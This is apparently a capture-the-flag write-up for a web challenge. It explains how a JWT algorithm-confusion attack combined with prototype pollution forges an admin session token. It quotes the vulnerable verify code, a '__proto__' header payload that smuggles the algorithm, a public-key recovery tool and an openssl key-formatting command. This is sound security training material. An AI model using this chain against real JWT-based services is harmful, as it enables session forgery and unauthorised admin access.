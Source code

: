 ```yaml
---
layout: default
title: PublicEnemy
---
```


# Public Enemy

- **Category:** Web  
- **Points:** 500  
- **Solved by:** JCTF Team

---

## Description

![problem description](./Public_Enemy/Challenge-info.gif)

The challenge lets users log in and uses JWT to maintain session cookies. It's vulnerable to an algorithm confusion attack mixed with prototype pollution.

---

## Solution

First, we log in as guest with `guest` as username and password. This is the JWT token we got: 
![jwt token](./Public_Enemy/JWT-token.png)

As we can see, it holds our username and also the `isAdmin` field. From the source code, in the file `index.js`, we need to somehow be the admin in order to view the `FLAG`.
```js
app.get('/', ensureAuth, (req, res) => {
    return res.render("index.ejs", {
        username: req.username || "guest",
        isAdmin: req.isAdmin || false,
        flag: (req.isAdmin) ? FLAG : null
    });
});
```
<!-- ![get the flag](./Flag-part-code.png) -->

If we observe the code, we can see it accepts 3 algorithms: `HMAC`, which is symmetric, and `RSA` and `ESA`, which are asymmetric. 
```js
let verified = false;
if (algorithm.type === 'hmac') { ... } 
else if (algorithm.type === 'rsa') { ... } 
else if (algorithm.type === 'esa') { .... } 
else {
    throw new Error("algorithm is unsupported");
}
```
<!-- ![verify function](./Verify-code.png) -->

The `sign` function and the `verify` function are well implemented, so trying to push `none` as the algorithm type in the JWT token won't work.

## Flaw 1
However, we can detect a flaw here: in the supported algorithms in file `index.js` it mentions `PS256`, while in `jwt.js` it mentions `HS256`, and not `PS256`. 
```js
const alg = jwt.supported_algorithms;
const payload = jwt.verify(
    token, PUBLIC_KEY, {
        "algorithms": [alg.RS256, alg.ES256, alg.PS256],
    }
);
```
```js
this.algorithms = {
            HS256: {hash: 'sha256', type: 'hmac'},
            HS384: {hash: 'sha384', type: 'hmac'},
            HS512: {hash: 'sha512', type: 'hmac'},
            RS256: {hash: 'RSA-SHA256', type: 'rsa'},
            RS384: {hash: 'RSA-SHA384', type: 'rsa'},
            RS512: {hash: 'RSA-SHA512', type: 'rsa'},
            ES256: {hash: 'sha256', type: 'esa'},
            ES384: {hash: 'sha384', type: 'esa'},
            ES512: {hash: 'sha512', type: 'esa'}
        }
```
<!-- ![the vuln typo](./Vuln-typo.png) -->
<!-- ![allowed algorithms](./Allowd-algorithms.png) -->

So, the algorithm list that is being passed to the `verify` function contains `undefined`. This might help us.

## Flaw 2
In the `verify` function, we can see on line 130 it calls `Object.assign` on the `JWT header`, since the JWT header is user-controlled and not properly filtered, an attacker can supply malicious properties (like `__proto__`) in the header, enabling prototype pollution.

```js
let header = JSON.parse(decodeBase64Url(headerEncoded).toString());

if (options.algorithms && !options.algorithms.includes(header.alg)) {
    throw Error("algorithm is not allowed");
}

header = Object.assign({}, header);
header = Object.freeze(header);
const algorithm = this.algorithms[header.alg];
```
<!-- ![prototype pollution](./Prototype-pollution.png) -->
In addition, it passes the IF check if we don't supply any `alg` inside the header of the JWT token, because as we already saw in *Flaw 1*, `undefined` is found in this list.  

So, we can use this flaw to inject our own header.alg, by supplying this as the header for our JWT token.
```json
{
    "typ": "JWT",
    "__proto__": {
        "alg": "HS256"
    }
}
```

## Flaw 3

All we need for our algorithm confusion attack is to obtain the `public key`. We use the tool [JWT-Key-Recovery](https://github.com/FlorianPicca/JWT-Key-Recovery) from GitHub, and extract the `public key` by supplying 2 JWT tokens.
 ![Extract public key](./Public_Enemy/Extract-public-key.png)

 ---

 ## Attack

We need to change the header and the payload. In the header, we use *Flaw 1* and *Flaw 2* in order to use `HS256`, which is a symmetric algorithm, and in the payload we set the `isAdmin` flag to true. 

![Final attack](./Public_Enemy/Final-attack.png)

All that's left is to sign this token with the `public key` we obtained in *Flaw 3*. Notice it might be frustrating—the format of the key, new lines might jump. 
I changed the source code of the `recover.py` and printed the `PEM key` already base64 encoded.

> Alternatively, you can use `openssl` to convert the PEM public key to the required format. For example:
> ```
> openssl ec -pubin -in out.pem | base64 -w 0
> ```
> (Make sure to adjust the command and file names as needed for your key type.)

![FLAG-picture](./Public_Enemy/Final-image.png)

The flag is `AppSec-IL{i_am_confusion}`